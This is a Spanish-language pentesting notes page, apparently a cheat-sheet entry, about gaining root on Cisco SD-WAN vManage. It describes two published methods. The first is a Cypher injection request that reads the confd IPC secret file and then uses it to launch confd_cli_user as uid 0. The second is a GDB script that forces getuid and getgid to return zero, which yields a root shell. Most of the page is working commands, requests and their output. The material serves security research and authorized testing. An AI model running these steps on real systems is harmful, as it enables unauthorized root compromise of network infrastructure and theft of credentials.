 # Cisco - vmanage

## Path 1

(Example from [https://www.synacktiv.com/en/publications/pentesting-cisco-sd-wan-part-1-attacking-vmanage.html](https://www.synacktiv.com/en/publications/pentesting-cisco-sd-wan-part-1-attacking-vmanage.html))

Después de investigar un poco en alguna [documentación](http://66.218.245.39/doc/html/rn03re18.html) relacionada con `confd` y los diferentes binarios (accesibles con una cuenta en el sitio web de Cisco), encontramos que para autenticar el socket IPC, utiliza un secreto ubicado en `/etc/confd/confd_ipc_secret`:

```
vmanage:~$ ls -al /etc/confd/confd_ipc_secret

-rw-r----- 1 vmanage vmanage 42 Mar 12 15:47 /etc/confd/confd_ipc_secret
```

Recuerda nuestra instancia de Neo4j? Se está ejecutando con los privilegios del usuario `vmanage`, lo que nos permite recuperar el archivo utilizando la vulnerabilidad anterior:

```
GET /dataservice/group/devices?groupId=test\\\'<>\"test\\\\\")+RETURN+n+UNION+LOAD+CSV+FROM+\"file:///etc/confd/confd_ipc_secret\"+AS+n+RETURN+n+//+' HTTP/1.1

Host: vmanage-XXXXXX.viptela.net



[...]

"data":[{"n":["3708798204-3215954596-439621029-1529380576"]}]}
```

El programa `confd_cli` no soporta argumentos de línea de comandos, pero llama a `/usr/bin/confd_cli_user` con argumentos. Así que podríamos llamar directamente a `/usr/bin/confd_cli_user` con nuestro propio conjunto de argumentos. Sin embargo, no es legible con nuestros privilegios actuales, así que tenemos que recuperarlo del rootfs y copiarlo usando scp, leer la ayuda y usarlo para obtener el shell:

```
vManage:~$ echo -n "3708798204-3215954596-439621029-1529380576" > /tmp/ipc_secret

vManage:~$ export CONFD_IPC_ACCESS_FILE=/tmp/ipc_secret

vManage:~$ /tmp/confd_cli_user -U 0 -G 0

Welcome to Viptela CLI

admin connected from 127.0.0.1 using console on vManage

vManage# vshell

vManage:~# id

uid=0(root) gid=0(root) groups=0(root)
```

## Path 2

(Example from [https://medium.com/walmartglobaltech/hacking-cisco-sd-wan-vmanage-19-2-2-from-csrf-to-remote-code-execution-5f73e2913e77](https://medium.com/walmartglobaltech/hacking-cisco-sd-wan-vmanage-19-2-2-from-csrf-to-remote-code-execution-5f73e2913e77))

El blog¹ del equipo synacktiv describió una forma elegante de obtener un shell root, pero la advertencia es que requiere obtener una copia de `/usr/bin/confd_cli_user`, que solo es legible por root. Encontré otra forma de escalar a root sin tales complicaciones.

Cuando desensamblé el binario `/usr/bin/confd_cli`, observé lo siguiente:

```
vmanage:~$ objdump -d /usr/bin/confd_cli
… snipped …
40165c: 48 89 c3              mov    %rax,%rbx
40165f: bf 1c 31 40 00        mov    $0x40311c,%edi
401664: e8 17 f8 ff ff        callq  400e80 <getenv@plt>
401669: 49 89 c4              mov    %rax,%r12
40166c: 48 85 db              test   %rbx,%rbx
40166f: b8 dc 30 40 00        mov    $0x4030dc,%eax
401674: 48 0f 44 d8           cmove  %rax,%rbx
401678: 4d 85 e4              test   %r12,%r12
40167b: b8 e6 30 40 00        mov    $0x4030e6,%eax
401680: 4c 0f 44 e0           cmove  %rax,%r12
401684: e8 b7 f8 ff ff        callq  400f40 <getuid@plt>  <-- HERE
401689: 89 85 50 e8 ff ff     mov    %eax,-0x17b0(%rbp)
40168f: e8 6c f9 ff ff        callq  401000 <getgid@plt>  <-- HERE
401694: 89 85 44 e8 ff ff     mov    %eax,-0x17bc(%rbp)
40169a: 8b bd 68 e8 ff ff     mov    -0x1798(%rbp),%edi
4016a0: e8 7b f9 ff ff        callq  401020 <ttyname@plt>
4016a5: c6 85 cf f7 ff ff 00  movb   $0x0,-0x831(%rbp)
4016ac: 48 85 c0              test   %rax,%rax
4016af: 0f 84 ad 03 00 00     je     401a62 <socket@plt+0x952>
4016b5: ba ff 03 00 00        mov    $0x3ff,%edx
4016ba: 48 89 c6              mov    %rax,%rsi
4016bd: 48 8d bd d0 f3 ff ff  lea    -0xc30(%rbp),%rdi
4016c4:   e8 d7 f7 ff ff           callq  400ea0 <*ABS*+0x32e9880f0b@plt>
… snipped …
```

Cuando ejecuto “ps aux”, observé lo siguiente (_note -g 100 -u 107_)

```
vmanage:~$ ps aux
… snipped …
root     28644  0.0  0.0   8364   652 ?        Ss   18:06   0:00 /usr/lib/confd/lib/core/confd/priv/cmdptywrapper -I 127.0.0.1 -p 4565 -i 1015 -H /home/neteng -N neteng -m 2232 -t xterm-256color -U 1358 -w 190 -h 43 -c /home/neteng -g 100 -u 1007 bash
… snipped …
```

I hypothesized the “confd\_cli” program passes the user ID and group ID it collected from the logged in user to the “cmdptywrapper” application.

Mi primer intento fue ejecutar “cmdptywrapper” directamente y suministrarle `-g 0 -u 0`, pero falló. Parece que se creó un descriptor de archivo (-i 1015) en algún lugar del camino y no puedo falsificarlo.

Como se mencionó en el blog de synacktiv (último ejemplo), el programa `confd_cli` no admite argumentos de línea de comandos, pero puedo influir en él con un depurador y, afortunadamente, GDB está incluido en el sistema.

Creé un script de GDB donde forcé a la API `getuid` y `getgid` a devolver 0. Dado que ya tengo privilegios de “vmanage” a través de la deserialización RCE, tengo permiso para leer directamente el archivo `/etc/confd/confd_ipc_secret`.

root.gdb:

```
set environment USER=root
define root
finish
set $rax=0
continue
end
break getuid
commands
root
end
break getgid
commands
root
end
run
```

Salida de la consola:

```
vmanage:/tmp$ gdb -x root.gdb /usr/bin/confd_cli
GNU gdb (GDB) 8.0.1
Copyright (C) 2017 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-poky-linux".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from /usr/bin/confd_cli...(no debugging symbols found)...done.
Breakpoint 1 at 0x400f40
Breakpoint 2 at 0x401000Breakpoint 1, getuid () at ../sysdeps/unix/syscall-template.S:59
59 T_PSEUDO_NOERRNO (SYSCALL_SYMBOL, SYSCALL_NAME, SYSCALL_NARGS)
0x0000000000401689 in ?? ()Breakpoint 2, getgid () at ../sysdeps/unix/syscall-template.S:59
59 T_PSEUDO_NOERRNO (SYSCALL_SYMBOL, SYSCALL_NAME, SYSCALL_NARGS)
0x0000000000401694 in ?? ()Breakpoint 1, getuid () at ../sysdeps/unix/syscall-template.S:59
59 T_PSEUDO_NOERRNO (SYSCALL_SYMBOL, SYSCALL_NAME, SYSCALL_NARGS)
0x0000000000401871 in ?? ()
Welcome to Viptela CLI
root connected from 127.0.0.1 using console on vmanage
vmanage# vshell
bash-4.4# whoami ; id
root
uid=0(root) gid=0(root) groups=0(root)
bash-4.4#
```
